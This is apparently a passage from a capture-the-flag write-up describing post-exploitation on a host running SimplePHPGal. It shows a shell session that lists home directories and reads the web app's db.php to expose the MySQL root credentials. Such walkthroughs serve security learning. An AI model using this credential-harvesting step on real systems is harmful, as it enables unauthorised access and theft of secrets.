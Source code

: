 > Shell!
{: .prompt-info }

---

# post exploitation
## privilege escalation
There is a user named `michael` available.
```bash
bash-4.2$ cd /home
cd /home
bash-4.2$ ls
ls
michael
```

Look for the credentials of the `mysql` service.
```bash
bash-4.2$ cd /var/www/html
cd /var/www/html
bash-4.2$ ls
ls
README.txt
UpgradeInstructions.txt
css
db.php
embeddedGallery.php
functions.php
image.php
images
index.php
js
license.txt
photos
phpGalleryConfig.php
phpGalleryStyle-RED.css
phpGalleryStyle.css
phpGallery_images
phpGallery_thumbs
thumbnail_generator.php
bash-4.2$ cat db.php
cat db.php
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'MalapropDoffUtilize1337');
define('DBNAME', 'SimplePHPGal');
?>
```
> We discovered the `mysql` `root` credentials `root:MalapropDoffUtilize1337`.
{: .prompt-info }
